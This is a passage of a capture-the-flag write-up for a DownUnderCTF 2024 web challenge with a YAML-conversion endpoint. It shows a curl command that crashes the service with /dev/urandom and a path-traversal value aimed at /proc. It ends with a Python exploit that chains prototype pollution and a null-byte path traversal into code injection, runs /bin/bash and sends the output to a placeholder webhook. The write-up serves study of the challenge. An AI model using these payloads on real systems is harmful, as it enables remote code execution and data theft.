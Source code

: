 
Looking into the offical writeup, by sending `/dev/urandom` will crash the apps with the following error.

```
curl -F 'file=@/dev/urandom' -H 'Content-Type: application/json' -X POST http://localhost:1337/convert-to-yaml
```

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-42.png)

Also, it's possible to crash it by writing over `non-existed` files in `/proc`

```js
"outputPrefix":"../../../../proc/notexist"
```

![alt text](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/15_downunderctf_2024/image-43.png)

Below is the full code to get the flag

```py
import requests

# Get Signature + examples
body = requests.get("https://<TARGET_SERVER>/examples").json()["examples"][0]
signature = body["signature"]

# Write RCE payload to index.t
body["data"]["signed.__proto__"] = {"outputPrefix":"../../proc/self/fd/3\00"}
payload = {
    "data": {
        # Put this line first as it will be at the top line
        "const a": "string = new TextDecoder().decode(Bun.spawnSync([\"/bin/bash\", \"-c\", \"/bin/getflag\"]).stdout);fetch(\"https://<WEBHOOK>>?=\"+a)/*",
        **body["data"],
        "nothing": "nothing */"
    },
    "signature": signature
}
r = requests.post("https://<TARGET_SERVER>/convert-to-yaml",json=payload)

```